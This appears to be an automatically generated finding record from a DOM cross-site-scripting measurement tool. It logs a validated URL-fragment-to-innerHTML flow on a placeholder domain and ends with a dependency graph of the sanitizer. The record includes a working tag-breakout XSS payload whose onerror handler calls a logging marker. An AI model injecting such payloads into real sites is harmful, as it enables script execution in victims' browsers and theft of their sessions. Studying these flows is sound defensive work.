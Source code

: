 // Finding: 63d3d57a-3355-478f-880d-451c8a553187
// Finding.url: https://example102.com/c5/c4/c7/illustration##'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2b6e2375e345460ab1f783d7c2641503')><!--/*
// Finding.parentloc: https://example102.com/c5/c4/c7/illustration##'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2b6e2375e345460ab1f783d7c2641503')><!--/*
// Finding.domain: example102.com
// Finding.base_domain: example102.com
// Finding.source: document.documentURI
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: yQm5/</i.parseHost
// Sanitizer.location: https://s.example103.com/search/assets/frontend/vendor-726c78a1637accfe3fc8.js - yQm5/</i.parseAuthority:247:7644
// Finding.begin: 39
// Finding.end: 61
// Finding.original_uuid: 41b6de3b-ed51-468b-ac3b-7cca5350a41c
// Finding.TwentyFiveMillionFlowsId: 126298517
// Finding.script: https://s.example103.com/search/assets/frontend/vendor-726c78a1637accfe3fc8.js
// Finding.line: 97
// Exploit.uuid: 2b6e2375-e345-460a-b1f7-83d7c2641503
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: '
// Exploit.tag: link
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 5
// Exploit.replace_begin_url: 38
// Exploit.replace_end_url: 38
// Exploit.replace_begin_param: 28
// Exploit.replace_end_param: 28
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1058823409
// DepGraph.sanitizer_hash: 1126567687

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /\\/"];
n3 [shape=box, label="Lit: /"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="substr"];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Lit: 8"];
n8 [shape=box, label="Var: x"];
n9 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n6 -> n1;
n5 -> n6;
n5 -> n7;
n8 -> n5;
n9 -> n8;
}
